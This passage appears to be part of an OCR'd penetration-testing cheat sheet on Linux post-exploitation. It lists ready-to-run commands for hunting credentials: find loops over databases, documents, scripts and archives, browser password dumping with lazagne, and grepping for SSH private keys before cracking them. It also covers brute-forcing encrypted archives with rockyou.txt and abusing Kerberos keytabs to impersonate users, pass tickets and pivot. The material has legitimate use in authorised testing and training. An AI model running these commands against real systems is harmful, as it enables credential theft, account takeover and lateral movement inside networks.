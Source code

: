             *   Code Analysis   → Sensitive Exposure / Docker Files / Inputs & Functions / DB Connection Strings / Dependencies
            *   GIT Data
                *   Directories → `.git` / `.gitignore`
                *   `git log --oneline` 
                *   `git status`
                *   `git show [HASH]`
                *   `git diff [HASH_1] [HASH_2]`
        *   DB Files
            *   `for ext in $(echo ".*db .db* .sql .sql* .db");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null; done`
        *   Browsers
            *   `lazagne.py browsers`
            *   `ls -la .mozilla/firefox/ | grep default` → `logins.json` File
            *   [Firefox Decrypt](https://github.com/unode/firefox_decrypt)
        *   Documents
            *   `for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done`
        *   Configuration Files
            *   Research All Services   → `find / -type f -iname "*.[CNF/CONF/CONFIG]" -readable 2>/dev/null` + Settings Files
            *   Write Permission          → MySQL UDF 
            *   Readable Data & Credentials
        *   SSH Keys
            *   `grep -rnw "ssh-rsa" /home/* 2>/dev/null | grep ":1"` → Ciphered Public Keys → `.enc | base64` + RsaCTFTool.py
            *   `grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"`   → Encrypted / Usable Type
            *   SSH2John Cracking
        *   ADM Logs
            *   `for i in $(ls /var/log/* 2>/dev/null);do GREP=$(grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null); if [[ $GREP ]];then echo -e "\n#### Log file: " $i; grep "accepted\|session opened\|session closed\|failure\|failed\|ssh\|password changed\|new user\|delete user\|sudo\|COMMAND\=\|logs" $i 2>/dev/null;fi;done`
        *   Scripts
            *   `for l in $(echo ".py .pyc .pl .go .jar .c .sh");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "doc\|lib\|headers\|share";done`
            *   Read / Write Privilege + Scheduled Executions
        *   Drives Data
            *   `fdisk -l` → `ls /dev 2>/dev/null | grep -i "sd"`
            *   `mount -t [TYPE] /dev/[MOUNTPOINT] /mnt/`
            *   `/etc/fstab`, `/etc/mtab` → File & Contents Hunting
        *   Archives
            *   `for ext in $(echo ".zip .rar .gz .xz .tar .gzip .7z");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null; done`
            *   Extensions    → `curl -s https://fileinfo.com/filetypes/compressed | html2text | awk '{print tolower($1)}' | grep "\."`
            *   BitLocker       → `find / -iname '*.vhd' 2>/dev/null` → Transfer Windows + Mount
            *   OpenSSL       → `for i in $(cat rockyou.txt);do openssl enc -aes-256-cbc -d -in [GZIP] -k $i 2>/dev/null| tar xz;done`
        *   Kerberos Tickets
            *   Enumeration
                *   `env | grep -i krb5`
                *   `find / -name *keytab* -ls 2>/dev/null`
                *   `ls -la /tmp | grep krb`
                *   `./linikatz.sh`
            *   Check User               → `klist -k -t [KEYTAB]`
            *   Impersonate User   → `kinit [USER] -k -t [KEYTAB]`
            *   Get/Crack Hash        → `python3 keytabextract.py [KEYTAB]`
            *   Pass Ticket                 → `export KRB5CCNAME=[KRB5CC_FILE]`
            *   Dynamic Pivoting    → `sudo nano /etc/krb5.conf` + Add Realm `[DOMAIN] = { kdc = [INTERNAL_HOST]}` + Check `krbconf()`
            *   Lin to Windows        → `ticketConverter.py [KEYTAB] lin.ccache`
*   OS